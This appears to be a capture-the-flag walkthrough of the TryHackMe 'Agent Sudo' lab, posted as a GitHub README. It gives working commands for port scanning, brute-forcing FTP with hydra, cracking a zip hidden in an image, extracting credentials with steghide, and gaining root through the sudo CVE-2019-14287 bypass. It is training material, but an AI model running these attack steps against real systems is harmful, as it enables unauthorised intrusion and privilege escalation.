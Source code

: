 # Agent_Sudo
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Fuzzing
* Brute Forcing
* Hash Cracking
* Sudo CVE-2019-14287

Tools used
--
* nmap
* ffuf
* burp
* hydra
* binwalk
* steghide
* john

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.48.88
* Other information must be gathered during the attack

Phase 1: Enumeration
--
```
sudo nmap -sS -sC -sV 10.10.48.88 -p- -T5 -vvv

<SNIP>
Initiating SYN Stealth Scan at 20:21
Scanning 10.10.48.88 [65535 ports]
Discovered open port 22/tcp on 10.10.48.88
Discovered open port 80/tcp on 10.10.48.88
Discovered open port 21/tcp on 10.10.48.88
<SNIP>
```
Let's try to fuzz on the web application. According our fuzzing, we didn't find any directory or file. Let's read the communication on the home page:
```
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```
There is an Agent R, so we can try to change User-Agent as R. If we do that, we get the following message:
```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```
Let's try to fuzz the User-Agent with a wordlist of Uppercase letters called `agents.txt` we can create easy and then run:
```
<SNIP>
R                       [Status: 200, Size: 225, Words: 2, Lines: 1, Duration: 3578ms]
C                       [Status: 302, Size: 218, Words: 13, Lines: 19, Duration: 3585ms]
<SNIP>
```
Note that `C` result has `302` status. We must check where it redirects. By using Burpsuite, the redirection brings us to `/agent_C_attention.php` page where we get the following message:
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```
Let's try to bruteforce chris user by FTP service:
```
hydra -l chris -P rockyou.txt 10.10.48.88 ftp

<SNIP>
[DATA] attacking ftp://10.10.48.88:21/
[21][ftp] host: 10.10.48.88   login: chris   password: crystal
[STATUS] 14344398.00 tries/min, 14344398 tries in 00:01h, 1 to do in 00:01h, 8 active
1 of 1 target successfully completed, 1 valid password found
<SNIP>
```
Phase 2: Foothold
--
Let's enter in the FTP server with this account:
```
ftp chris@10.10.48.88
```
Inside it there are two images and one txt file with the following message:
```
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```
This message suggests us that the password should be hidden inside one of the two images. Indeed, executing `binwalk` we get:
```
binwalk cutie.png

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
869           0x365           Zlib compressed data, best compression
34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
34820         0x8804          End of Zip archive, footer length: 22
```
Let's extract them by binwalk. On Arch Linux, you need to install for first 7zip and JDK for `7z` and `jar` command in order to extract the hidden contents of the file correctly:
```
sudo pacman -Syy jdk-openjdk p7zip

binwalk -e cutie.png
```
We get a `8702.zip` and the automatically extracted `To_agentR.txt`. We cannot access to this text file because the `.zip` is password-protected and this extraction was "fake". Let's try to use John for cracking the password:
```
zip2john 8702.zip > zip.hash
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type

john zip.hash --wordlist=~/rockyou.txt
<SNIP>
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alien            (8702.zip/To_agentR.txt)
<SNIP>
```
Let's extract the content and read that text file:
```
7z x 8702.zip
<Enter alien as password>

cat To_agentR.txt

Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
By decoding as Base64 `QXJlYTUx`, we get `Area51`. There are not other hints. Let's try to use StegHide on the second image (binwalk gave us no hidden content information, probably because the other image was protected by a password):
```
steghide extract -sf cute-alien.jpg

Enter passphrase:<Area51>
wrote extracted data to "message.txt".
```
In case the password was not available, we could use `stegcracker`. 

Let's read the extracted file:
```
cat message.txt

Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Let's login by SSH with james account:
```
ssh 10.10.48.88 -l james
<hackerrules!>

cat user_flag.txt
```
and we get the user flag.

Phase 3: Privilege Escalation
--
If we run LinPEAS, we can see a red string on the sudo version. If we visit https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version (CVE-2019-14287), we can run:
```
sudo -u#-1 /bin/bash
```
and we get root privileges. Now we can read the root flag at `cat /root/root.txt`.